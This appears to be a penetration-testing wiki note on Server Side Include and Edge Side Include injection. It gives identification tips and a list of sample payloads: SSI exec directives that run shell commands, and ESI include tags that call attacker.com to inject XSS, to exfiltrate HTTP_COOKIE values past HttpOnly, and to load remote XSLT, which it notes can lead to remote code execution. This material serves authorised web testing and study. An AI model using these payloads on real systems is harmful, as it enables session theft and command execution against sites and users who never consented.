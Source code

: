 # Server Side Include/SSI
Server Side Include is a language-neutral web server technology that supports creating dynamic content before rendering the page.
## Identification
- Does the application makes use of  `.shtml`, `shtm` or `.stm` pages
- Try Sample Payloads

## Sample Payloads
```
<!--#echo var="DOCUMENT_NAME" -->
<!--#echo var="DATE_LOCAL" -->
<!--#include virtual="/index.html" -->
<!--#exec cmd="dir" -->
<!--#exec cmd="ls" -->
```


# Edge Side Includes
Edge Side Include (ESI) has a form of xml tags, which are dynamically added to cached static content in order to enrich them with some dynamic features.

The ESI tags are injected by cache mechanisms for other cache mechanisms; however, if a user is able to add ESI tags to the HTTP request, the proxies might parse it without knowing its origin.

## Identification
- Check for the header `Surrogate-Control: content="ESI/1.0"`

- In order to detect ESI injection with a blind approach, the user can try to inject tags that cause the proxies to resolve arbitrary addresses resulting in SSRF.
```XML
<esi:include src="/weather/name?id=$(QUERY_STRING{city_id})" />
```

## Exploitation
- It might be possible to include a HTML file resulting in XSS
```XML
<esi:include src=http://attacker.com/xss.html>
```

- Steal Cookie, This bypasses HTTP only flags
```XML
<esi:include src=http://attacker.com/$(HTTP_COOKIE)>
```

- Include XSLT file, if supported
```XML
<esi:include src="http://attacker.com/file.xml" dca="xslt" 
stylesheet="http://attacker.com/transformation.xsl" />
```

> There is also a possibility that the ESI Injection might lead to Remote Code Execution when it has support for XSLT. Check [[Web Applications testing/Attacks/XSLT Engines]]